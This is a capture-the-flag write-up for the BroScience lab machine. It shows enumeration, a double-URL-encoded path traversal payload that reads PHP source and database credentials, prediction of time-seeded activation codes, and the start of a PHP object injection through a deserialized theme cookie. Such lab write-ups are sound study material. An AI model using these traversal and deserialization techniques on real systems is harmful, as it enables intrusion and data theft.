







## Introduction

A moderately challenging machine (for me at least) where we use a basic filter bypass to perform Local File Inclusion, allowing us to read a PHP web app's source code and uncover any insecure code.  With this knowledge, we attack a poor attempt at randomness which was a new thing for me in a CTF environment, allowing us to register and activate an account.  With login access, we exploit a theme via PHP object injection to get RCE.  From here, we can dump and crack credentials from a database connection string we found earlier allowing us to privilege escalate from `www-data` to a real user.  Finally, we then rely on write access to a location where a cron job looks for certificates for renewal -- and exploit this script via command injection to get root access.

## Enumeration

We start with an `nmap` scan to find running and accessible services:

```bash
$nmap -sC -sV -o nmap/initial 10.10.11.195
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 18:27 AEDT
Nmap scan report for 10.10.11.195
Host is up (0.90s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 df:17:c6:ba:b1:82:22:d9:1d:b5:eb:ff:5d:3d:2c:b7 (RSA)
|   256 3f:8a:56:f8:95:8f:ae:af:e3:ae:7e:b8:80:f6:79:d2 (ECDSA)
|_  256 3c:65:75:27:4a:e2:ef:93:91:37:4c:fd:d9:d4:63:41 (ED25519)
80/tcp  open  http     Apache httpd 2.4.54
|_http-title: Did not follow redirect to https://broscience.htb/
|_http-server-header: Apache/2.4.54 (Debian)
443/tcp open  ssl/http Apache httpd 2.4.54 ((Debian))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.54 (Debian)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| ssl-cert: Subject: commonName=broscience.htb/organizationName=BroScience/countryName=AT
| Not valid before: 2022-07-14T19:48:36
|_Not valid after:  2023-07-14T19:48:36
|_http-title: BroScience : Home
|_ssl-date: TLS randomness does not represent time
Service Info: Host: broscience.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.93 seconds
```

We add broscience.htb into our `/etc/hosts` and browse there to follow the redirect.  We're greeted with -- well, a blog about bros.. and science.. and bro science, where each URL is for a particular exercise of the format `https://broscience.htb/exercise.php?id=11`




Attempting to leave a comment redirects me to a login page.  URLs show us this is a PHP app, and we're on Apache/2.4.54 based on response headers.  Our login page is shown below:



Gobuster scan to enumerate the web server:

```bash
$gobuster dir -u https://broscience.htb/ -w /usr/share/dirb/wordlists/big.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://broscience.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/01/28 18:44:14 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/images               (Status: 301) [Size: 319] [--> https://broscience.htb/images/]
/includes             (Status: 301) [Size: 321] [--> https://broscience.htb/includes/]
/javascript           (Status: 301) [Size: 323] [--> https://broscience.htb/javascript/]
/manual               (Status: 301) [Size: 319] [--> https://broscience.htb/manual/]    
/server-status        (Status: 403) [Size: 280]                                         
/styles               (Status: 301) [Size: 319] [--> https://broscience.htb/styles/]    

===============================================================
2023/01/28 18:45:03 Finished
===============================================================
```

## Foothold

We can see directory listings, and within https://broscience.htb/includes/ , there is an img.php.  Navigating to https://broscience.htb/includes/img.php shows a "missing path" error, and attempting path traversal on the path query parameter shows "attack detected".





I wondered if this was a clue, and if we could URL encode or otherwise encode the path value to bypass this filter, perhaps?  At this point, I started searching for directory traversal filter bypassing and came across [Advanced Directory Traversal filter bypassing](https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki).

I tried a few techniques, including encoding dots, and at best would receive a 200 response wth an empty body.  In addition, some strings such as 'passwd' will trigger the above error message.

Back tracking slightly to gather more data, each exercise is posted by a user id and clicking on a username will load URL https://broscience.htb/user.php?id=X

I am able to enumerate from id 1 to 5, which gives me the following users with attributes -- which may be useful later on?:

```
administrator

Member since
    4 years ago
Email Address
    administrator@broscience.htb
Total exercises posted
    138 
Total comments posted
    46 
Is activated
    Yes 
Is admin
    Yes 

bill

Member since
    4 years ago
Email Address
    bill@broscience.htb
Total exercises posted
    92 
Total comments posted
    46 
Is activated
    Yes 
Is admin
    No 

michael

Member since
    2 years ago
Email Address
    michael@broscience.htb
Total exercises posted
    92 
Total comments posted
    46 
Is activated
    Yes 
Is admin
    No 

john

Member since
    1 year ago
Email Address
    john@broscience.htb
Total exercises posted
    46 
Total comments posted
    138 
Is activated
    Yes 
Is admin
    No 


dmytro

Member since
    1 year ago
Email Address
    dmytro@broscience.htb
Total exercises posted
    0 
Total comments posted
    0 
Is activated
    Yes 
Is admin
    No 
```

Looking back, I decided to try the filter bypass on a known working file - `images/bench.png` -- the below actually works, and gives me the image file as per those files in https://broscience.htb/images -- so double URL encoding a forward slash works as a filter bypass:

```
GET /includes/img.php?path=..%252Fimages%252Fbench.png HTTP/1.1
Host: broscience.htb
Cookie: PHPSESSID=7tgk1lrrj4m6p5218rvb9i0t69
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

As mentioned, our `gobuster` output shows `/includes` , which contains:



`db_connect.php` sounds interesting.. can we do a LFI (Local File Inclusion) and fetch it with `GET /includes/img.php?path=..%252Fincludes%252Fdb_connect.php HTTP/1.1` ?  Yep!:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 08:59:25 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 337
Connection: close
Content-Type: image/png

<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```

`header.php` isn't particularly interesting, but for `GET /includes/img.php?path=..%252Fincludes%252Fimg.php HTTP/1.1` we get:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:01:58 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 483
Connection: close
Content-Type: image/png

<?php
if (!isset($_GET['path'])) {
    die('<b>Error:</b> Missing \'path\' parameter.');
}

// Check for LFI attacks
$path = $_GET['path'];

$badwords = array("../", "etc/passwd", ".ssh");
foreach ($badwords as $badword) {
    if (strpos($path, $badword) !== false) {
        die('<b>Error:</b> Attack detected.');
    }
}

// Normalize path
$path = urldecode($path);

// Return the image
header('Content-Type: image/png');
echo file_get_contents('/var/www/html/images/' . $path);
?>
```

So this is the filter we bypassed before to allow LFI.  

For `GET /includes/img.php?path=..%252Fincludes%252Fnavbar.php HTTP/1.1` we get:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:02:56 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 1201
Connection: close
Content-Type: image/png

<?php
include_once "includes/utils.php";
?>

<nav class="uk-navbar-container uk-margin uk-navbar-transparent <?=get_theme_class()?>">
    <div class="uk-container uk-container-expand">
        <div class="uk-navbar" uk-navbar>
            <div class="uk-navbar-left">
                <a href="/" class="uk-navbar-item uk-logo">BroScience</a>
            </div>
            <div class="uk-navbar-right">
                <?php
                // Check if user is logged in
                if (isset($_SESSION['id'])) {
                    echo '<div class="uk-navbar-item"><a href="swap_theme.php" class="uk-link-text"><span uk-icon="icon: paint-bucket"></span></a></div>';
                    echo "<div class=\"uk-navbar-item\">Logged in as <a class=\"uk-link-text\" href=\"user.php?id={$_SESSION['id']}\"><b>".htmlspecialchars($_SESSION['username'],ENT_QUOTES,'UTF-8')."</b></a></div>";
                    echo '<ul class="uk-navbar-nav"><li><a href="logout.php">Log Out</a></li></ul>';
                } else {
                    echo '<ul class="uk-navbar-nav"><li><a href="login.php">Log In</a></li></ul>';
                }
                ?>
            </div>
        </div>
    </div>
</nav>
```

And finally, `GET /includes/img.php?path=..%252Fincludes%252Futils.php HTTP/1.1` gives us:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:03:41 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 3060
Connection: close
Content-Type: image/png

<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

// Source: https://stackoverflow.com/a/4420773 (Slightly adapted)
function rel_time($from, $to = null) {
    $to = (($to === null) ? (time()) : ($to));
    $to = ((is_int($to)) ? ($to) : (strtotime($to)));
    $from = ((is_int($from)) ? ($from) : (strtotime($from)));

    $units = array
    (
        "year"   => 29030400, // seconds in a year   (12 months)
        "month"  => 2419200,  // seconds in a month  (4 weeks)
        "week"   => 604800,   // seconds in a week   (7 days)
        "day"    => 86400,    // seconds in a day    (24 hours)
        "hour"   => 3600,     // seconds in an hour  (60 minutes)
        "minute" => 60,       // seconds in a minute (60 seconds)
        "second" => 1         // 1 second
    );

    $diff = abs($from - $to);

    if ($diff < 1) {
        return "Just now";
    }

    $suffix = (($from > $to) ? ("from now") : ("ago"));

    $unitCount = 0;
    $output = "";

    foreach($units as $unit => $mult)
        if($diff >= $mult && $unitCount < 1) {
            $unitCount += 1;
            // $and = (($mult != 1) ? ("") : ("and "));
            $and = "";
            $output .= ", ".$and.intval($diff / $mult)." ".$unit.((intval($diff / $mult) == 1) ? ("") : ("s"));
            $diff -= intval($diff / $mult) * $mult;
        }

    $output .= " ".$suffix;
    $output = substr($output, strlen(", "));

    return $output;
}

class UserPrefs {
    public $theme;

    public function __construct($theme = "light") {
		$this->theme = $theme;
    }
}

function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}

function get_theme_class($theme = null) {
    if (!isset($theme)) {
        $theme = get_theme();
    }
    if (strcmp($theme, "light")) {
        return "uk-light";
    } else {
        return "uk-dark";
    }
}

function set_theme($val) {
    if (isset($_SESSION['id'])) {
        setcookie('user-prefs',base64_encode(serialize(new UserPrefs($val))));
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}

class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}
?>
```

Continuing on, `GET /login.php` looks as follows:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:10:47 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 3028
Connection: close
Content-Type: image/png

<?php
session_start();

// Check if user is logged in already
if (isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Handle a submitted log in form
if (isset($_POST['username']) && isset($_POST['password'])) {
    // Check if variables are empty
    if (!empty($_POST['username']) && !empty($_POST['password'])) {    
        include_once 'includes/db_connect.php';
        
        // Check if username:password is correct
        $res = pg_prepare($db_conn, "login_query", 'SELECT id, username, is_activated::int, is_admin::int FROM users WHERE username=$1 AND password=$2');
        $res = pg_execute($db_conn, "login_query", array($_POST['username'], md5($db_salt . $_POST['password'])));
        
        if (pg_num_rows($res) == 1) {
            // Check if account is activated
            $row = pg_fetch_row($res);
            if ((bool)$row[2]) {
                // User is logged in
                $_SESSION['id'] = $row[0];
                $_SESSION['username'] = $row[1];
                $_SESSION['is_admin'] = $row[3];

                // Redirect to home page
                header('Location: /index.php');
            } else {
                $alert = "Account is not activated yet";
            }
        } else {
            $alert = "Username or password is incorrect.";
        }
    } else {
        $alert = "Please fill in both username and password.";
    }
}
?>

<html>
    <head>
        <title>BroScience : Log In</title>
        <?php include_once 'includes/header.php'; ?>
    </head>
    <body>
        <?php include_once 'includes/navbar.php'; ?>
        <div class="uk-container uk-container-xsmall">
            <form class="uk-form-stacked" method="POST" action="login.php">
                <fieldset class="uk-fieldset">
                    <legend class="uk-legend">Log In</legend>
                    <?php
                    // Display any alerts
                    if (isset($alert)) {
                    ?>
                    <div uk-alert class="uk-alert-<?php if(isset($alert_type)){echo $alert_type;}else{echo 'danger';} ?>">
                            <a class="uk-alert-close" uk-close></a>
                            <?=$alert?>
                        </div>
                    <?php
                    }
                    ?>
                    <div class="uk-margin">
                        <input name="username" class="uk-input" placeholder="Username">
                    </div>
                    <div class="uk-margin">
                        <input name="password" class="uk-input" type="password" placeholder="Password">
                    </div>
                    <div class="uk-margin">
                        <button class="uk-button uk-button-default" type="submit">Log in</button>
                    </div>
                    <div class="uk-margin">
                        <a href="register.php">Create an account</a>
                    </div>
                </fieldset>
            </form>
        </div>
    </body>
</html>
```

And `GET /register.php`:

```
HTTP/1.1 200 OK
Date: Sat, 28 Jan 2023 09:11:43 GMT
Server: Apache/2.4.54 (Debian)
Content-Length: 5743
Connection: close
Content-Type: image/png

<?php
session_start();

// Check if user is logged in already
if (isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Handle a submitted register form
if (isset($_POST['username']) && isset($_POST['email']) && isset($_POST['password']) && isset($_POST['password-confirm'])) {
    // Check if variables are empty
    if (!empty($_POST['username']) && !empty($_POST['email']) && !empty($_POST['password']) && !empty($_POST['password-confirm'])) {
        // Check if passwords match
        if (strcmp($_POST['password'], $_POST['password-confirm']) == 0) {
            // Check if email is too long
            if (strlen($_POST['email']) <= 100) {
                // Check if email is valid
                if (filter_var($_POST['email'], FILTER_VALIDATE_EMAIL)) {
                    // Check if username is valid
                    if (strlen($_POST['username']) <= 100) {
                        // Check if user exists already    
                        include_once 'includes/db_connect.php';

                        $res = pg_prepare($db_conn, "check_username_query", 'SELECT id FROM users WHERE username = $1');
                        $res = pg_execute($db_conn, "check_username_query", array($_POST['username']));
                        
                        if (pg_num_rows($res) == 0) {
                            // Check if email is registered already
                            $res = pg_prepare($db_conn, "check_email_query", 'SELECT id FROM users WHERE email = $1');
                            $res = pg_execute($db_conn, "check_email_query", array($_POST['email']));

                            if (pg_num_rows($res) == 0) {
                                // Create the account
                                include_once 'includes/utils.php';
                                $activation_code = generate_activation_code();
                                $res = pg_prepare($db_conn, "check_code_unique_query", 'SELECT id FROM users WHERE activation_code = $1');
                                $res = pg_execute($db_conn, "check_code_unique_query", array($activation_code));

                                if (pg_num_rows($res) == 0) {
                                    $res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
                                    $res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));

                                    // TODO: Send the activation link to email
                                    $activation_link = "https://broscience.htb/activate.php?code={$activation_code}";

                                    $alert = "Account created. Please check your email for the activation link.";
                                    $alert_type = "success";
                                } else {
                                    $alert = "Failed to generate a valid activation code, please try again.";
                                }
                            } else {
                                $alert = "An account with this email already exists.";
                            }
                        }
                        else {
                            $alert = "Username is already taken.";
                        }
                    } else {
                        $alert = "Maximum username length is 100 characters.";
                    }
                } else {
                    $alert = "Please enter a valid email address.";
                }
            } else {
                $alert = "Maximum email length is 100 characters.";
            }
        } else {
            $alert = "Passwords do not match.";
        }
    } else {
        $alert = "Please fill all fields in.";
    }
}
?>

<html>
    <head>
        <title>BroScience : Register</title>
        <?php include_once 'includes/header.php'; ?>
    </head>
    <body>
        <?php include_once 'includes/navbar.php'; ?>
        <div class="uk-container uk-container-xsmall">
            <form class="uk-form-stacked" method="POST" action="register.php">
                <fieldset class="uk-fieldset">
                    <legend class="uk-legend">Register</legend>
                    <?php
                    // Display any alerts
                    if (isset($alert)) {
                    ?>
                    <div uk-alert class="uk-alert-<?php if(isset($alert_type)){echo $alert_type;}else{echo 'danger';} ?>">
                            <a class="uk-alert-close" uk-close></a>
                            <?=$alert?>
                        </div>
                    <?php
                    }
                    ?>
                    <div class="uk-margin">
                        <input name="username" class="uk-input" placeholder="Username">
                    </div>
                    <div class="uk-margin">
                        <input name="email" class="uk-input" type="email" placeholder="Email">
                    </div>
                    <div class="uk-margin">
                        <input name="password" class="uk-input" type="password" placeholder="Password">
                    </div>
                    <div class="uk-margin">
                        <input name="password-confirm" class="uk-input" type="password" placeholder="Repeat password">
                    </div>
                    <div class="uk-margin">
                        <button class="uk-button uk-button-default" type="submit">Register</button>
                    </div>
                </fieldset>
            </form>
        </div>
    </body>
</html>
```

We have database credentials, but unfortunately the database isn't exposed to the outside world.  What I'm interested in, without trying more login bypass techniques, is -- how can I accept an activation link when I register a new user?

When registering, we do a few things:

1. check password and confirm password match
2. check email <= 100 characters
3. check email matches `FILTER_VALIDATE_EMAIL`
4. check username <= 100 characters
5. check username doesn't already exist in database
6. check email doesn't already exist in database
7. generate the activation code as above
8. confirm this activation code isn't already used and stored against an existing user in the database
9. insert the user into the database with the following ordinal values:
   
```php
$res = pg_prepare($db_conn, "create_user_query", 'INSERT INTO users (username, password, email, activation_code) VALUES ($1, $2, $3, $4)');
$res = pg_execute($db_conn, "create_user_query", array($_POST['username'], md5($db_salt . $_POST['password']), $_POST['email'], $activation_code));
```

So, we insert username,  password as defined by the output from `md5` function when given the `$db_salt` value "NaCl" and entered password, plus the email and random activation_code.

I realised that the db salt wasn't really useful at this point, because we still don't have access to the md5 hashes in the database.

I decided to look back over the generate activation code function we extracted through LFI in HTTP requests above:

```php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}
```

When skimming previously, I missed the `srand(time())` call.  The `time()` function returns number of seconds since the Unix epoch -- and this is used to seed the `rand()` function for selecting 32 characters when generating our activation code.

The predictability/determinism/poor entropy of the above function was obvious when running a PHP repl with `php -a`, defining the above function and executing it quickly:

```
php > print generate_activation_code();
epyPkI0Ey1Bgzw6DsRE21Hmqvk9RYYUX
php > print generate_activation_code();
epyPkI0Ey1Bgzw6DsRE21Hmqvk9RYYUX
```

So when executing at the same second as above, we get the same activation code.  Maybe we can generate a bunch of activation codes for a future epoch, register a new account, then we can predict the activation code?

The easiest and hackiest option was to basically call the function in an infinite loop, and  when registering, keep track of the activation code we generated:

```php
while(true) { echo generate_activation_code() . "\n"; sleep(1); }
```

Another option is to specify `srand(time()+x)` to get *future* activation codes

So, I registered an account with the above loop running:



After trying a couple, https://broscience.htb/activate.php?code=ErJK1irIPK89FtlZmBRPhbLg5rhTSoJJ worked!:



Finally, I was able to log in with my new account credentials - mycooluser / foobar:


The new thing we can see is the paint icon to change theme, which is a link to `/swap_theme.php`.  Using our path traversal vuln before to do local file inclusion, we can see that `swap_theme.php` contains the following:

```php
<?php
session_start();

// Check if user is logged in already
if (!isset($_SESSION['id'])) {
    header('Location: /index.php');
}

// Swap the theme
include_once "includes/utils.php";
if (strcmp(get_theme(), "light") === 0) {
    set_theme("dark");
} else {
    set_theme("light");
}

// Redirect
if (!empty($_SERVER['HTTP_REFERER'])) {
    header("Location: {$_SERVER['HTTP_REFERER']}");
} else {
    header("Location: /index.php");
}
```

Back in `includes/utils.php`, the `get_theme()` function does the following:

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

What is this doing?:
1. get the user-prefs value from the browser cookie if it exists
2. calls `unserialize(base64_decode($up_cookie))` on the value
3. returns the theme from this deserialised object

Searching for unserialize exploitation, I came across PHP  object injection in these three articles:

- [Exploiting PHP Deserialization](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a)
- [PHP Object Injection | OWASP Foundation](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection)
- [PHP Object Injection Exploitation Notes](https://snoopysecurity.github.io/web-application-security/2021/01/08/02_php_object_injection_exploitation-notes.html)

The TL;DR is that `serialize()` and `unserialize()` allow us to take a PHP object and serialise it into a string representation, or conversely, take a string representation of an object and deserialise it back into an object.

Interestingly the `unserialize()` function will look for PHP "magic methods" such as `__wakeup()` and `__destruct()` and execute these if they exist.  Hence, if we create our own serialized string with a magic method executing arbitrary code, when `unserialize` takes our string and deserializes is, *potentially* the PHP server will execute the code in our magic method, hence achieving RCE on the target.

Looking at my own cookie now I'm logged into the web application, I see the following for `user-prefs`, which I can base64 decode as per the `get_theme()` method above, and deserialise back into a `UserPrefs` object (after I've defined `UserPrefs` in my local PHP interpreter):

```php
<?php
class UserPrefs {
	public $theme;

	public function construct($theme = "light") {
		$this->theme = $theme;
	}
}

$user_prefs_str = base64_decode("Tzo5OiJVc2VyUHJlZnMiOjE6e3M6NToidGhlbWUiO3M6NToibGlnaHQiO30=");
print "Serialized UserPrefs object: " . $user_prefs_str . "\n";


$user_prefs_obj = unserialize($user_prefs_str);
print "\nexisting theme from deserialized object: " . $user_prefs_obj->theme . "\n";
?>
```

Output:
```bash
$php test.php 
Serialized UserPrefs object: O:9:"UserPrefs":1:{s:5:"theme";s:5:"light";}

existing theme from deserialized object: light
```

I won't write up all the reverse shell funniness I tried here -- as I misunderstood PHP object injection.  I basically tried adding different magic methods to the class declaration above to open a reverse shell to my netcat, instantiated a `UserPrefs` object, serialised and base64 decoded and put this back into my browser cookie -- expecting the server would gladly execute my arbitrary code.

What I failed to understand is that the **server** class definition for UserPrefs would need to have the magic method defined for the code to execute -- as the serialized object contains data only and not functions/behaviour. So time to investigate other ways of exploiting `unserialize()`..

Revisiting the PHP code above, the server has `AvatarInterface` with a magic method we can use -- this passes in an image path to Avatar and calls save, effectively writing the contents of `$this->tmp` to `$this->imgPath`:

```php
class AvatarInterface {
    public $tmp;
    public $imgPath; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

class Avatar {
    public $imgPath;

    public function __construct($imgPath) {
        $this->imgPath = $imgPath;
    }

    public function save($tmp) {
        $f = fopen($this->imgPath, "w");
        fwrite($f, file_get_contents($tmp));
        fclose($f);
    }
}
```

